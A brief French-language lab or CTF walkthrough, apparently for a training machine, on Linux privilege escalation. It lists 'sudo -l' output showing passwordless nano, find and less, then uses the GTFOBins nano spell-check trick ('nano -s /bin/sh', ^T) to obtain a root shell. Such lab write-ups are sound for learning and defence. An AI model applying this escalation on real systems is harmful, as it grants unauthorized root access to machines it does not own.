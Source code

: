 
## __Sudo -l__

Grâce à la commande **`sudo -l`**, on peut récuperer les commandes que l'on peut éxecuter en sudo.

```shell
$ sudo -l
Matching Defaults entries for karen on ip-10-10-127-120:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karen may run the following commands on ip-10-10-127-120:
    (ALL) NOPASSWD: /usr/bin/find
    (ALL) NOPASSWD: /usr/bin/less
    (ALL) NOPASSWD: /usr/bin/nano
```

Ici on peut voir que l'utilisateur peut utiliser nano en sudoer.

On peut voir sur **[gtfobins](https://gtfobins.github.io/gtfobins/nano/)** qu'on peut effectuer une **élévation des privilèges** avec **Nano** en executant **`/bin/sh`** en **SPELL** mode. 

```shell
./nano -s /bin/sh
/bin/sh
^T
```

On peut ensuite voir qu'on passe en root.


